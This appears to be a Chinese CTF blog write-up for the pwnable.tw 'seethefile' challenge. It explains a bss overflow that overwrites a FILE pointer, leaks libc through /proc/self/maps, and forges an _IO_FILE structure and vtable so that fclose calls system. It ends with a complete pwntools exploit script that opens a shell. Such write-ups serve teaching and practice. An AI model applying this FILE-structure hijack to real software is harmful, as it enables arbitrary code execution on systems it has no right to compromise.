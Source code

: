 ```yaml
---
title: 和媳妇一起学Pwn 之 seethefile
date: 2020-04-03 00:00:00
categories:
- CTF/Pwn
tags: pwnable.tw  IO_FILE
---
```


> 漏洞点是：存在一个位于bss段的变量输入溢出，溢出后可以覆盖一个IO_FILE结构体的指针。

> 利用方式：利用题目读取文件的功能通过linux的proc伪文件系统泄露libc基址，然后溢出IO_FILE的指针指向一个伪造IO_FILE结构体，并且根据libc基址伪造虚表。当伪造的结构体被fclose使用时，虚函数将被调用，即可getshell。

- 题目地址：[https://pwnable.tw/challenge/#9](https://pwnable.tw/challenge/#9)

## 检查

```bash
➜  file seethefile
seethefile: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=04e6f2f8c85fca448d351ef752ff295581c2650d, not stripped
➜  checksec seethefile
[*] '/Users/Desktop/pwn/pwnable/seethefile/seethefile'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

32位程序，除了NX，剩下的保护没开，没去符号表。

## 漏洞点

程序本身的功能是可以打开，读取，关闭文件，还可以将读取的内容打印出来。不过一次只能读取0x18F个字节，而且不能读flag文件。输入文件名和读取文件内容的地方都做好了边界控制，没有什么问题，不过在退出时：

```c
case 5:
printf("Leave your name :");
__isoc99_scanf("%s", &name);
```

这里没有检查输入name的长度，导致可以覆盖name后面的内存。位于bss段的name后面就是那个文件的fp指针，之后又去调用了fclose并传入了这个fp指针，这里就是漏洞点所在。

## `_IO_FILE`

在利用之前，我们先来学习`_IO_FILE`。不过在学`IO_FILE`之前，我们先了解两个函数`open`和`fopen`：

- [总结open与fopen的区别](https://www.jianshu.com/p/5bccc0a0bbbf)
- [C fopen vs open](https://stackoverflow.com/questions/1658476/c-fopen-vs-open)
- [Linux（C/C++）下的文件操作open、fopen与freopen](https://blog.csdn.net/qq_38374864/article/details/72903920)
- [C语言中open与fopen的的解释和区别](https://blog.csdn.net/LEON1741/article/details/78091974)
- [C语言中文件描述符和文件指针的本质区别](https://blog.csdn.net/xzhKSD123/article/details/96167556)

|          | 文件描述符（低级IO）  | 文件流/文件指针（高级IO）       |
| -------- | --------------------- | ------------------------------- |
| 标准     | POSIX                 | ANSI C                          |
| 层次     | 系统调用                | libc                            |
| 数据类型 | int                   | FILE *                          |
| 函数     | open/close/read/write | fopen/fclose/fread/fwrite/fseek |

所以要学习的`_IO_FILE`就是fopen这套libc实现的高级IO操作相关的一个结构体`_IO`是值其所在是libc的IO库中，所以说的FILE结构体值指的就是`_IO_FILE`，在stdio.h的头文件中有typedef：

> /usr/include/stdio.h

```c
struct _IO_FILE;
typedef struct _IO_FILE FILE;
typedef struct _IO_FILE __FILE;
extern struct _IO_FILE *stdin;		/* Standard input stream.  */
extern struct _IO_FILE *stdout;		/* Standard output stream.  */
extern struct _IO_FILE *stderr;		/* Standard error output stream.  */
```

至此我们可以开心的学习`_IO_FILE`了

- [FILE Structure Description](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/io_file/introduction-zh/)
- [_IO_FILE部分源码分析及利用](http://dittozzz.top/2019/04/24/IO-FILE%E9%83%A8%E5%88%86%E6%BA%90%E7%A0%81%E5%88%86%E6%9E%90%E5%8F%8A%E5%88%A9%E7%94%A8/)
- [_IO_FILE利用思路总结](https://b0ldfrev.gitbook.io/note/pwn/iofile-li-yong-si-lu-zong-jie)
- [IO FILE 之劫持vtable及FSOP](http://blog.eonew.cn/archives/1103)
- [IO file结构在pwn中的妙用](https://xz.aliyun.com/t/6567)

一句话概括为啥要研究`_IO_FILE`：**libc实现的文件流机制中存在可以被改写的函数指针**

## 利用

所以本题的思路很清晰了，通过改写bss段的FILE指针到我们伪造的结构体上，并布置好虚表即可getshell。

### 泄露libc

本题泄露libc的基址实在是没啥技术含量，因为直接能读文件，所以直接利用linux的proc伪文件系统读取`/proc/self/maps`即可获得libc基址，不过本地和远程的布局可能有些许的不同，因为一次最多只能读取0x18f个字节，所以可能需要读两次才能读到libc的基址。

### 伪造IO_FILE结构体及虚表

因为在退出的时候，我们可以无限写bss段往后的内存，所以我们把构造的fake FILE也放到这里，并且bss段地址是已知的，这样也才能提前计算fake FILE的地址，以便覆盖程序的fp指针。


```python
fakeFILE = 0x0804B284
payload  = 'a'*0x20
payload += p32(fakeFILE)
payload += p32(0xffffdfff)
payload += ";$0"+'\x00'*0x8d
payload += p32(fakeFILE+0x98)
payload += p32(system_addr)*3
```

### 完整exp

```python
from pwn import *

context(arch='i386',os='linux',log_level='debug')
myelf  = ELF("./seethefile")
libc   = ELF("./libc_32.so.6")
io     = remote("chall.pwnable.tw",10200)

sla          = lambda delim,data       :io.sendlineafter(delim, data) 
openfile     = lambda name :  (sla("choice :","1"),sla("see :",name))
readfile     = lambda      :  (sla("choice :","2"))
showfile     = lambda      :  (sla("choice :","3"))
leave        = lambda name :  (sla("choice :","5"),sla("ame :",name))

# leak libc
openfile("/proc/self/maps")
readfile()
showfile()
io.recvuntil("[heap]\n")
libc_addr = int(io.recv(8),16)+0x1000
system_addr = libc_addr +libc.symbols['system']

# make fake file
fakeFILE = 0x0804B284
payload  = 'a'*0x20
payload += p32(fakeFILE)
payload += p32(0xffffdfff)
payload += ";$0"+'\x00'*0x8d
payload += p32(fakeFILE+0x98)
payload += p32(system_addr)*3

# getshell
leave(payload)
io.interactive()
```